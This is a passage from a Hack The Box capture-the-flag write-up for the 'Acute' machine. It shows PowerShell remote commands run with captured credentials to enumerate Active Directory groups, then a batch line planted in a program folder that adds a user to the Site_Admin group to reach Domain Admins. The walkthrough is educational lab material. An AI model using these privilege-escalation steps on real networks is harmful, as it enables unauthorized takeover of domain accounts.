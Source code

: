 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Acute/images/Pasted%20image%2020230814181914.png)

**So, is there any site admin related group?**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { net group /domain }

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
```

**Oh! There's a `Site_Admin` group:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
The command completed successfully.
```

In the comment, it says **this `Site_Admin` group has access to `Domain Admin` group!**

Armed with above information, **we can escalate our privilege to `Domain Admins` group via changing a domain user's group membership to `Site_Admin`!**

**To do so, we can create a Batch script in `C:\Program Files\keepmeon\`!**
```batch
net group Site_Admin awallace /add /domain
```
